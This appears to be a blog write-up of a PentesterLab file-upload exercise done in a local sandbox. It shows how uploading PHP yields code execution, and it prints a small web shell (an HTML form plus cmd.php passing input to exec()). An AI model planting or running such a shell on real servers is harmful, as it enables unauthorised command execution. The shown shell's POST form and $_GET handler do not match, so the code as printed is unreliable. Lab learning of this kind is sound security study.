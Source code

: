 # Baby's first PHP shell
I previously had been auditing a course here at Portland State for web application security -- the faculty provides all the course material for free online, so anyone can take a look at it. The aim of the course is to get students familiar with basic security principles -- things to watch out for when developing hosted applications and how web applications behave in comparison to desktop or server-based programs. A server-side application may have a vulnerability in terms of passing un-validated data for execution, but that has a different threat model in comparison to a public website. Either way, the point is to instill best practices and have this cascade over to other development projects.

For our testing sandbox, we relied on pre-configured images from PentesterLab (link below for the curious)

https://pentesterlab.com/exercises/web_for_pentester/attachments

Pentester Lab is a great resource that provides guides on how to execute various exploits -- SQL injections, XSS attacks, and (what we're talking about today) PHP shells, to name a few.

I have some experience with web site exploitation but have never really executed a PHP shell attack -- I really had only heard the words "PHP Shell" and knew nothing past that point. I set up the ISO in Virtual Box locally and fired it up to get started.

Clicking on the File Upload 1 exercise, if we successfully upload a file we receive this response:

![Upload](/thumbnails/2020-03-14/1UploadProcess.png)

Clicking on the link in the response takes us directly to the image as well as shows where that image is on the server. From this URL, we can tell exactly where the file is on the server as well.

![Raccoon](/thumbnails/2020-03-14/2UploadResult.png)

Most websites nowadays screen for the filetype that's being uploaded to prevent remote code execution as a precaution. Instead of a jpeg, I'm going to upload a PHP file, which, if executed, will show the version of PHP running on the server. You can create this file by typing the following into a file and saving it off as a .php file -- the name does not matter.

`<?php phpinfo();?>`

That's all! The ?php portion initializes PHP by saying, "I am going to run a PHP function." The phpinfo(); is the actual function call which shows PHP's configuration on this server.

![PHP Info](/thumbnails/2020-03-14/3phpinfo.png)

Success! So what other commands can we send to this server through the file upload feature? PHP has a couple of functions that we can use to accomplish this if we combine them together.

The PHP exec command will accept a system command as an argument and can store the result as a variable. The echo command works the same as on the command line -- it'll show whatever is passed to it to the screen. You can read more about both these commands here in the PHP manual:

https://www.php.net/manual/en/function.exec.php
https://www.php.net/manual/en/function.echo.php

So what if we modify that phpinfo file to list what directory we are in by executing the pwd linux command?

    <?php echo exec("pwd")?>

![PWD](/thumbnails/2020-03-14/4pwd.png)

I am a bit lazy, though, and don't want to have to upload a file every single time that I want to execute a command, so let's make an html form that passes a command to be executed by the php. I'll split this out into two files -- page.html will have all form materials and cmd.php will execute the command.

## page.html
    <html>
    <body>
    <form method="POST" action="cmd.php">
        <input type="text" id="command" name="command" >
            <input type="submit" name="submit">
    </form>
    </body>
    </html>

## cmd.php

    <html>
    <body>
    <?php
    $var = $_GET['command'];
    echo exec($var);
    ?>
    </body>
    </html>

Now, when I type a command into here and submit...
![Execute](/thumbnails/2020-03-14/5query.png)

I get a new page with the results!
![Result](/thumbnails/2020-03-14/6catResult.png)
